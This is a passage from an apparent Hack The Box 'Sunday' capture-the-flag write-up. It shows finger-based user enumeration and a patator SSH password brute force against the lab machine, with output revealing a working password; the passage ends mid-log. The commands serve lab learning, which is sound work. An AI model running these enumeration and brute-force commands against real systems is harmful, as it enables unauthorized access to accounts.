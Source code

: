 ```bash
1   14.00 ms 10.10.14.1
2   14.22 ms 10.10.10.76
```

Notably:

- A `finger` service is running on `tcp/79`.
- SSH is running on `tcp/22022`

[finger][] is not something I was familiar with before this box, so I had a lot of learning to do.
`finger` is used to enumerate information about system users.

I can enumerate users on the system with:

```bash
artis3n@kali-pop:~/shares/htb/sunday$ finger user@10.10.10.76

Login       Name               TTY         Idle    When    Where
xvm      xVM User                           < .  .  .  . >
openldap OpenLDAP User                      < .  .  .  . >
nobody   NFS Anonymous Access               < .  .  .  . >
noaccess No Access User                     < .  .  .  . >
nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >
```

Well, that didn't work.
I eventually found [finger-user-enum.pl][finger enum].
This will take a long time to run, but it eventually finds a `sunny` user.

```bash
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76 | less -S
```

![finger enum results][]

The official write-up includes the discovery of another user on the system, `sammy`, but I wasn't able to find it myself.
With these two users, I can use [patator][] to brute force an SSH login.

```bash
patator ssh_login host=10.10.10.76 port=22022 password=FILE0 0=/usr/share/seclists/Passwords/probable-v2-top1575.txt user=sunny -x ignore:mesg='Authentication failed.'
```

This also takes a while but eventually I get a valid SSH session.

```
18:12:16 patator    INFO - 1     23    30.028 | gemini                             |   208 | Authentication timeout.
18:12:25 patator    INFO - 1     23    30.026 | beauty                             |   794 | Authentication timeout.
18:12:46 patator    INFO - 1     23    30.021 | butterfly                          |   218 | Authentication timeout.
18:12:53 patator    INFO - 0     19     0.036 | sunday                             |   880 | SSH-2.0-Sun_SSH_1.3
18:12:55 patator    INFO - 1     23    30.022 | denver                             |   804 | Authentication timeout.
18:13:16 patator    INFO - 1     23    30.023 | apples                             |   228 | Authentication timeout.
18:13:25 patator    INFO - 1     23    30.024 | jeffrey                            |   814 | Authentication timeout.
18:13:46 patator    INFO - 1     23    30.015 | arthur                             |   238 | Authentication timeou
```


[finger]: https://book.hacktricks.xyz/pentesting/pentesting-finger
[finger enum]: https://github.com/pentestmonkey/finger-user-enum
[gtfobins]: https://gtfobins.github.io/gtfobins/wget/#sudo
[hackthebox]: https://www.hackthebox.eu
[john]: https://github.com/magnumripper/JohnTheRipper
[patator]: https://github.com/lanjelot/patator
[finger enum results]: /assets/img/htb/sunday/finger-enum-results.png